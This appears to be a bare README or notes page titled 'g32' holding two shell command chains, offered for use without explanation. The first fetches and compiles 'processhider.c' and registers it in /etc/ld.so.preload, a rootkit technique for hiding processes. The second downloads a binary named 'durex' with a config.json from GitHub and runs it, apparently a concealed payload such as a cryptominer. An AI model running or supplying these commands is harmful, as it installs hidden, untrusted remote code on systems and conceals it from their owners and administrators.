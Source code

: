 # g32

wget https://raw.githubusercontent.com/cihuuy/libn/master/processhider.c && apt install gcc -y && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload


#

wget https://raw.githubusercontent.com/bulboni/g32/main/durex \
&& wget https://raw.githubusercontent.com/bulboni/g32/main/config.json \
&& chmod +x durex && ./durex
